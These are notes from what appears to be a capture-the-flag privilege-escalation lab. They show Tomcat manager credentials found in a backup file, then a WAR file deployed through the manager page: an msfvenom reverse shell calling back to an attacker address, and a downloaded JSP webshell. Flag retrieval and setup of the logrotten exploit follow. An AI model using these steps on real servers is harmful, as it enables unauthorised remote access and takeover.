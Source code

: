 sudo -u#-1 id
sudo: unknown user: #-1
sudo: unable to initialize policy plugin


10.129.105.45:8080

http://10.129.105.45:8080/manager/html

<user username="tomcat" password="s3cret" roles="manager-gui"/>

tomcat-users.xml


find / -type f -name tomcat-users.*  -exec ls -l {} \; 2>/dev/null

-rw-r----- 1 root tomcat 2232 Sep  5  2020 /etc/tomcat9/tomcat-users.xml
-rwxr-xr-x 1 root barry 2232 Sep  5  2020 /etc/tomcat9/tomcat-users.xml.bak
-rw-r--r-- 1 root root 2161 Sep  5  2020 /usr/share/tomcat9/etc/tomcat-users.xml

cat /etc/tomcat9/tomcat-users.xml.bak

 <user username="tomcatadm" password="T0mc@t_s3cret_p@ss!" roles="manager-gui, manager-script, manager-jmx, manager-status, admin-gui, admin-script"/>

http://10.129.105.45:8080/manager/html
tomcatadm
T0mc@t_s3cret_p@ss!

msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.15.118 LPORT=4443 -f war > backup.war
nc -lnvp 4443

wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
zip -r backup2.war cmd.jsp
Browse
select the .war file
Deploy

--> This file is uploaded to the manager GUI, after which the /backup application will be added to the table

http://10.129.105.45:8080/backup2/cmd.jsp

Command: id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)

grep -Rnw '/var/log/' -e 'LLPE{.*}'

find / -type f -name flag4.*  -exec ls -l {} \; 2>/dev/null

barry@nix03:~$ find / -type f -name flag4.*  -exec ls -l {} \; 2>/dev/null
-rw------- 1 tomcat tomcat 25 Sep  5  2020 /var/lib/tomcat9/flag4.txt

From webshell :
cat /var/lib/tomcat9/flag4.txt
LLPE{im_th3_m@nag3r_n0w}

### Exploit

git clone https://github.com/whotwagner/logrotten.git
cd logrotten
gcc logrotten.c -o logrotten

